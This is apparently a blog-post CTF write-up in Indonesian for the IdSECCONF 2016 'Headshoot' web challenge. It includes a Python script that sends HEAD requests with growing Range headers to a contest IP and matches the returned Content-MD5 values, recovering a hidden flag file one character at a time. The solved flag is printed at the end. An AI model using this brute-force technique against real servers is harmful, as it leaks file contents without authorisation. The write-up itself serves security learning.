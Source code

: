 ```yaml
---
layout: post
title: "Writeup Idsecconf CTF 2016 : Headshoot - 200"
description: "Writeup Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
category: Web Exploitation
tags: [idsecconf]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://139.59.245.67:8000/`

### Solusi :

Di berikan sebuah website dan lokasi flag di beritahu ada di `http://139.59.245.67:8000/flag.txt`
namun kita hanya bisa menggunakan Method `OPTIONS,HEAD` 

menurut w3 protocol : `The HEAD method is identical to GET except that the server MUST NOT return a message-body in the response. `

`Content-MD5, A Base64-encoded binary MD5 sum of the content of the request body, Content-MD5: Q2hlY2sgSW50ZWdyaXR5IQ== Obsolete`

`echo 'T/JeCTIbbkLdlRS/YqTvHw==' | base64 -d | xxd`

![Headshoot MD5](/images/headshoot_md5.png)

ditemukan md5 `4ff25e09321b6e42dd9514bf62a4ef1f` tidak bisa di decrypt secara online. dan setelah
surving di wikipedia ternyata kita bisa menambahkan header Range: bytes 0-1. dan akan bisa mengatur Response header
dengan menambahkan range kita bisa melakukan bruteforce terhadap MD5 nya perkarakter.

```python
import requests
import hashlib
import string
import binascii


url = 'http://139.59.245.67:8000/flag.txt'

flag = ''


while True:
    headers = {'Range': 'bytes=0-'+str(len(flag)+1)}
    r = requests.head(url, headers=headers)
    md5 = r.headers.get('Content-MD5')
    md5 = binascii.a2b_base64(md5)
    md5 = binascii.hexlify(md5)
    print md5
    for c in string.printable:
        newflag = flag+c
        newmd5 = hashlib.md5(newflag).hexdigest()
        if newmd5==md5:
            flag+=c
            print flag
            break    

```

dan di dapatkan flag : `flag{HaveYouEverSeenMD5ContentHeaderBeforeThis?}`